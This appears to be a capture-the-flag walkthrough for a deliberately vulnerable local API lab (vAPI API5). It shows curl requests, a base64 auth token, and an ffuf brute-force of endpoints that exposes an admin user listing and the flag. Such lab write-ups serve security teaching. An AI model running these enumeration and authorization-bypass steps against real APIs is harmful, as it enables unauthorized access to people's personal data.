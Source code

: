 > You can register yourself as a User. Thats it or is there something more? (I heard admin logins often but uses different route)

# Tools Used:
```
curl 8.8.0 (x86_64-pc-linux-gnu)
base64 (GNU coreutils) 9.4
echo (GNU coreutils) 9.4
GNU Wget 1.24.5
ffuf 2.1.0-dev
cat (GNU coreutils) 9.4
```

# Get User
## GET /vapi/api5/user/{api5_id}

Seeing that the Get User API endpoint uses user id, we may attempt to check for BOLA (Broken Object Level Authorization)

```bash
curl --path-as-is -i -s -k -X $'GET' \
    -H $'Host: localhost' \
    $'http://localhost/vapi/api5/user/1'
```
```http
HTTP/1.1 403 Forbidden
Host: localhost
Date: Sat, 29 Jun 2024 20:27:52 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Cache-Control: no-cache, private
Date: Sat, 29 Jun 2024 20:27:52 GMT
Content-Type: application/json

{"success":"false","cause":"authHeaderNotSet"}
```

Seems we need an authentication header

# Create User
## POST /vapi/api5/user

Create a user
```bash
curl --path-as-is -i -s -k -X $'POST' \
    -H $'Content-Type: application/json' -H $'Host: localhost' \
    --data-binary $'{\x0d\x0a    \"username\":\"testuser2\",\x0d\x0a    \"password\":\"test123\",\x0d\x0a    \"name\":\"Test User\",\x0d\x0a    \"address\":\"ABC\",\x0d\x0a    \"mobileno\":\"888888888\"\x0d\x0a}' \
    $'http://localhost/vapi/api5/user'
```
```http
HTTP/1.1 201 Created
Host: localhost
Date: Sat, 29 Jun 2024 20:22:07 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Cache-Control: no-cache, private
Date: Sat, 29 Jun 2024 20:22:07 GMT
Content-Type: application/json

{"username":"testuser2","name":"Test User","address":"ABC","mobileno":"888888888","id":2}
```

As specified in the Postman Collection, the test script to be executed for the API5 Create User endpoint is used to derive the id by parsing the JSON, selecting the value of "id" key and updates it in the Postman Environment as api5_id, and used to derive the token (Authorization-Token) by parsing the request JSON data, taking the values of the "username" and "password" key respectively with a colon between the two values, encoding the string in base64 and updates it in the Postman Environment as api5_auth.
```js
var jsonData = JSON.parse(responseBody);
var api5_id = jsonData.id;
console.log("API 5 User ID : "+api5_id);
postman.setEnvironmentVariable("api5_id",api5_id);
var reqData = JSON.parse(request.data);
var api5_username=reqData.username;
var api5_password=reqData.password;
var api5_auth=btoa(api5_username+":"+api5_password);
console.log("API 5 Auth : "+api5_auth);
postman.setEnvironmentVariable("api5_auth",api5_auth);
```

Manually derive the authorization token
```bash
echo -n "testuser2:test123" | base64
```
```
dGVzdHVzZXIyOnRlc3QxMjM=
```
- We will need the Authorization Token for the "Get User" endpoint

# Get User
## GET /vapi/api5/user/{api5_id}

Get data of our created user
```bash
curl --path-as-is -i -s -k -X $'GET' \
    -H $'Authorization-Token: dGVzdHVzZXIyOnRlc3QxMjM=' -H $'Host: localhost' \
    $'http://localhost/vapi/api5/user/2'
```
```http
HTTP/1.1 200 OK
Host: localhost
Date: Sat, 29 Jun 2024 20:40:36 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Cache-Control: no-cache, private
Date: Sat, 29 Jun 2024 20:40:36 GMT
Content-Type: application/json

{"id":2,"username":"testuser2","name":"Test User","address":"ABC","mobileno":"888888888"}
```

Get data of other users
```bash
curl --path-as-is -i -s -k -X $'GET' \
    -H $'Authorization-Token: dGVzdHVzZXIyOnRlc3QxMjM=' -H $'Host: localhost' \
    $'http://localhost/vapi/api5/user/1'
```
```http
HTTP/1.1 403 Forbidden
Host: localhost
Date: Sat, 29 Jun 2024 20:42:01 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Cache-Control: no-cache, private
Date: Sat, 29 Jun 2024 20:42:01 GMT
Content-Type: application/json

{"success":"false","cause":"usernameOrPasswordIncorrect"}
```

Seems like we are not able to BOLA (Broken Object Level Authorization).
Lets try to see what objects we are able to access with a wordlist
```bash
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/api/objects.txt -O /home/kali/Desktop/objects.txt
```

Brute force the endpoints
```bash
ffuf -w /home/kali/Desktop/objects.txt -X GET -H "Authorization-Token: dGVzdHVzZXIyOnRlc3QxMjM=" -u http://localhost/vapi/api5/§§/ -fc 500 -mode sniper -od /home/kali/Desktop/ffuf_responses -v
```
```

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://localhost/vapi/api5/§§/
 :: Wordlist         : FUZZ: /home/kali/Desktop/objects.txt
 :: Header           : Authorization-Token: dGVzdHVzZXIyOnRlc3QxMjM=
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 500
________________________________________________

[Status: 200, Size: 311, Words: 6, Lines: 1, Duration: 1789ms]
| URL | http://localhost/vapi/api5/users/
| RES | ee0706e54b0d606e0a45df0a79e8f78b
    * FUZZ: users

:: Progress: [3132/3132] :: Job [1/1] :: 22 req/sec :: Duration: [0:02:21] :: Errors: 0 ::
```

View the matched fuff response file:
```bash
cat /home/kali/Desktop/ffuf_responses/ee0706e54b0d606e0a45df0a79e8f78b
```
```
GET /vapi/api5/users/ HTTP/1.1
Host: localhost
User-Agent: Fuzz Faster U Fool v2.1.0-dev
Authorization-Token: dGVzdHVzZXIyOnRlc3QxMjM=
Accept-Encoding: gzip


---- ↑ Request ---- Response ↓ ----

HTTP/1.1 200 OK
Connection: close
Cache-Control: no-cache, private
Content-Type: application/json
Date: Sat, 29 Jun 2024 21:06:25 GMT
Date: Sat, 29 Jun 2024 21:06:25 GMT
Host: localhost
X-Powered-By: PHP/7.4.33

[{"id":1,"username":"admin","name":"Admin User","address":"flag{api5_76dd990a97ff1563ae76}","mobileno":"8080808080"},{"id":2,"username":"testuser2","name":"Test User","address":"ABC","mobileno":"888888888"},
```
- Observe that we managed to access an administrative endpoint that we were not supposed to, and managed to list out all the users.

API5 Flag
```
flag{api5_76dd990a97ff1563ae76}
```

References:
https://owasp.org/API-Security/editions/2019/en/0xa5-broken-function-level-authorization/
https://owasp.org/API-Security/editions/2023/en/0xa5-broken-function-level-authorization/